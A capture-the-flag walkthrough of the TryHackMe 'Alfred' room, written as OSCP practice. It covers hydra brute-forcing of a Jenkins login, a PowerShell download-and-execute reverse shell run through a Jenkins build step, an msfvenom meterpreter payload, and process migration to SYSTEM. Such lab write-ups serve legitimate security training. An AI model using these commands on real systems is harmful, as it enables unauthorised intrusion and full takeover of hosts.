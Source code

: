 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:
| Port | Protocol | Service |
|-----:|----------|---------|
|    80|       TCP|     HTTP|
|  3389|       TCP| MS-WBT-Server|
|  8080|       TCP|   HTTP-PROXY|
 
![NMAP Enumeration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028174616.png)

Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne.

![Port 80 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175000.png) 

We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page. 
![Port 8080 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information. 
![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)

Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. 
![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 

By utilizing Hydra we see a successful login with the username admin and the password admin. 
![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png)

Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under. 
![Jenkins Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190845.png)

We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` 
![Reverse Shell Execution](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.
![Reverse Shell Establoshed](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213936.png) 
![Flag Achieved](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` 
![MSFVenom Payload Creation](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221202.png)

Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.
![MSFConsole Setup](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221944.png)

Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` 
![Jenkins Payload Retrieval](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028222440.png)

Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. 
![Exploit Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223121.png)

This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. 
![Meterpreter Launch](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223212.png)

With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. 
![Process Listing](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.
![Process Migration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224629.png) 
![Root Flag](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224954.png) 
